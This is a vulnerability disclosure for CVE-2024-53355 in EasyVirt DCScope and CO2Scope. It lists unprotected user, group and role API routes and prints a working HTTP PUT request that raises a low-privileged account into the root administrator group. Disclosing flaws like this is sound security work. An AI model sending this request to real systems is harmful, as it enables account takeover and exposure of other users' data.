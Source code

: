 # [CVE-2024-53355] - EasyVirt - Broken Access Control
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 10-25-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DCScope <= 8.6.0
- CO2Scope <= 1.3.0

## Description:
Multiple incorrect access control in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote authenticated attackers, with low privileges, to (1) add an admin user via the `/api/user/addalias` route; (2) modifiy a user via the `/api/user/updatealias` route; (4) delete users via the `/api/user/delalias` route; (4) get users via the `/api/user/aliases` route; (5) add a root group via the `/api/user/adduser` route; (6) modifiy a group via the `/api/user/updateuser` route; (7) delete a group via the `/api/user/deluser` route; (8) get groups via the `/api/user/users` route; (9) add an admin role via the `/api/user/addrole` route; (10) modifiy a role via the `/api/user/updaterole` route; (11) delete a role via the `/api/user/delrole` route; (12) get roles via the `/api/user/roles` route.

## Exploitation:
Privilege escalation:
```
PUT /api/user/updatealias HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
Authorization: Token eyJhbGciOiJIU[..snip..]
Content-Length: 113
Te: trailers
Connection: close

{"login":"elymaro","password":"GBpkyhfCkZtPX95fFmddzg==","user":"root","is_local":1,"is_ldap":0,"is_openid":0}
```
> The parameter `user` means group. `root` is the default administrator group.
>
> The encrypted password is `Elym@r0`. 

## Impact :
A low-privileged user can modify his own group, change its permissions or create/modify other users, enabling escalation of privileges.
In addition, the user can access other users' data, including e-mails, login names, group and role membership.
